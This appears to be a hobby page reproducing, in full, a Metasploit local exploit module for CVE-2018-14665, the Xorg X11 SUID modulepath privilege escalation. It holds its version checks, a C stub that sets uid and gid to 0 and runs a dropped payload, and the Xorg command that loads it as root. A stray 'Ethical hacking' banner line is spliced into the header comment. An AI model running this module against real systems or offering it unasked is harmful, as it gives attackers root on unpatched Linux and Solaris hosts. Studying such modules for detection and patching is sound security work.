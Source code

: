# Reporting
##
# This module requires Metasploit: https://metasploit.com/download
 welcome to this page Ethical hacking Khdira
class MetasploitModule < Msf::Exploit::Local
  Rank = GoodRanking
  include Msf::Exploit::EXE
  include Msf::Exploit::FileDropper
  include Msf::Post::File
  include Msf::Post::Linux::Priv
  include Msf::Post::Linux::Kernel
  include Msf::Post::Linux::System
 
 
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Xorg X11 Server SUID modulepath Privilege Escalation',
      'Description'    => %q{
        This module attempts to gain root privileges with SUID Xorg X11 server
        versions 1.19.0 < 1.20.3.
 
        A permission check flaw exists for -modulepath and -logfile options when
        starting Xorg.  This allows unprivileged users that can start the server
        the ability to elevate privileges and run arbitrary code under root
        privileges.
 
        This module has been tested with CentOS 7 (1708).
        CentOS default install will require console auth for the users session.
        Xorg must have SUID permissions and may not start if running.
 
        On successful exploitation artifacts will be created consistant
        with starting Xorg.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'Narendra Shinde', # Discovery and exploit
          'Aaron Ringo',     # Metasploit module
        ],
      'DisclosureDate' => 'Oct 25 2018',
      'References'     =>
        [
           [ 'CVE', '2018-14665' ],
           [ 'BID', '105741' ],
           [ 'EDB', '45697' ],
           [ 'EDB', '45742' ],
           [ 'EDB', '45832' ],
           [ 'URL', 'https://www.securepatterns.com/2018/10/cve-2018-14665-another-way-of.html' ]
        ],
      'Platform'       =>  %w[linux unix solaris],
      'Arch'           =>  [ARCH_X86, ARCH_X64],
      'SessionTypes'   =>  %w[shell meterpreter],
      'Targets'        =>
        [
           ['Linux x64', {
            'Platform' => 'linux',
            'Arch' => ARCH_X64 } ],
           ['Linux x86', {
            'Platform' => 'linux',
            'Arch' => ARCH_X86 } ],
           ['Solaris x86', {
            'Platform' => [ 'solaris', 'unix' ],
            'Arch' => ARCH_SPARC } ],
           ['Solaris x64', {
            'Platform' => [ 'solaris', 'unix' ],
            'Arch' => ARCH_SPARC } ],
        ],
      'DefaultTarget'  => 0))
 
     register_advanced_options(
       [
         OptString.new('WritableDir', [ true, 'A directory where we can write files', '/tmp' ]),
         OptString.new('Xdisplay', [ true, 'Display exploit will attempt to use', ':1' ]),
         OptBool.new('ConsoleLock', [ true, 'Will check for console lock under linux', true ]),
         OptString.new('sofile', [ true, 'Xorg shared object name for modulepath', 'libglx.so' ])
       ]
     )
  end
 
 
  def check
    # linux checks
    uname = cmd_exec "uname"
    if uname =~ /linux/i
      vprint_status "Running additional check for Linux"
      if datastore['ConsoleLock']
        user = cmd_exec "id -un"
        unless exist? "/var/run/console/#{user}"
          vprint_error "No console lock for #{user}"
          return CheckCode::Safe
        end
        vprint_good "Console lock for #{user}"
      end
    end
 
    # suid program check
    xorg_path = cmd_exec "command -v Xorg"
    unless xorg_path.include?("Xorg")
      vprint_error "Could not find Xorg executable"
      return CheckCode::Safe
    end
    vprint_good "Xorg path found at #{xorg_path}"
    unless setuid? xorg_path
      vprint_error "Xorg binary #{xorg_path} is not SUID"
      return CheckCode::Safe
    end
    vprint_good "Xorg binary #{xorg_path} is SUID"
 
    x_version = cmd_exec "Xorg -version"
    if x_version.include?("Release Date")
      v = Gem::Version.new(x_version.scan(/\d\.\d+\.\d+/).first)
      unless v.between?(Gem::Version.new('1.19.0'), Gem::Version.new('1.20.2'))
        vprint_error "Xorg version #{v} not supported"
        return CheckCode::Safe
      end
    elsif x_version.include?("Fatal server error")
      vprint_error "User probably does not have console auth"
      vprint_error "Below is Xorg -version output"
      vprint_error x_version
      return CheckCode::Safe
    else
      vprint_warning "Could not parse Xorg -version output"
      return CheckCode::Appears
    end
    vprint_good "Xorg version #{v} is vulnerable"
 
    # process check for /X
    proc_list = cmd_exec "ps ax"
    if proc_list.include?('/X ')
      vprint_warning('Xorg in process list')
      return CheckCode::Appears
    end
    vprint_good('Xorg does not appear to be running')
    return CheckCode::Vulnerable
  end
 
  def check_arch_and_compile(path, data)
    cpu = ''
    if target['Arch'] == ARCH_X86
      cpu = Metasm::Ia32.new
      compile_with_metasm(cpu, path, data)
    elsif target['Arch'] == ARCH_SPARC
      compile_with_gcc(path, data)
    else
      cpu = Metasm::X86_64.new
      compile_with_metasm(cpu, path, data)
    end
  end
 
  def compile_with_metasm(cpu, path, data)
    shared_obj = Metasm::ELF.compile_c(cpu, data).encode_string(:lib)
    write_file(path, shared_obj)
    register_file_for_cleanup path
 
    chmod path
  rescue
    print_status('Failed to compile with Metasm. Falling back to compiling with GCC.')
    compile_with_gcc(path, data)
  end
 
  def compile_with_gcc(path, data)
    unless has_gcc?
      fail_with Failure::BadConfig, 'gcc is not installed'
    end
    vprint_good 'gcc is installed'
 
    src_path = "#{datastore['WritableDir']}/#{Rex::Text.rand_text_alpha(6..10)}.c"
    write_file(src_path, data)
 
    gcc_cmd = "gcc -fPIC -shared -o #{path} #{src_path} -nostartfiles"
    if session.type.eql? 'shell'
      gcc_cmd = "PATH=$PATH:/usr/bin/ #{gcc_cmd}"
    end
    output = cmd_exec gcc_cmd
    register_file_for_cleanup src_path
    register_file_for_cleanup path
 
    unless output.blank?
      print_error output
      fail_with Failure::Unknown, "#{src_path} failed to compile"
    end
 
    chmod path
  end
 
  def exploit
    check_status = check
    if check_status == CheckCode::Appears
      print_warning 'Could not get version or Xorg process possibly running, may fail'
    elsif check_status ==  CheckCode::Safe
      fail_with Failure::NotVulnerable, 'Target not vulnerable'
    end
 
    if is_root?
      fail_with Failure::BadConfig, 'This session already has root privileges'
    end
 
    unless writable? datastore['WritableDir']
      fail_with Failure::BadConfig, "#{datastore['WritableDir']} is not writable"
    end
 
    print_good 'Passed all initial checks for exploit'
 
    modulepath = datastore['WritableDir']
    sofile = "#{modulepath}/#{datastore['sofile']}"
    pscript = "#{modulepath}/.session-#{rand_text_alphanumeric 5..10}"
    xdisplay = datastore['Xdisplay']
 
    stub = %Q^
extern int setuid(int);
extern int setgid(int);
extern int system(const char *__s);
 
void _init(void) __attribute__((constructor));
 
void __attribute__((constructor))  _init() {
setgid(0);
setuid(0);
system("#{pscript} &");
  }
    ^
    print_status 'Writing launcher and compiling'
    check_arch_and_compile(sofile, stub)
 
    # Uploading
    print_status 'Uploading your payload, this could take a while'
    if payload.arch.first == 'cmd'
      write_file(pscript, payload.encoded)
    else
      write_file(pscript, generate_payload_exe)
    end
    chmod pscript
    register_file_for_cleanup pscript
 
 
    # Actual exploit with cron overwrite
    print_status 'Exploiting'
    #Xorg -logfile derp -modulepath ',/tmp' :1
    xorg_cmd = "Xorg -modulepath ',#{modulepath}' #{xdisplay} & >/dev/null"
    cmd_exec xorg_cmd
    Rex.sleep 7
    cmd_exec "pkill Xorg"
    Rex.sleep 1
  end
end
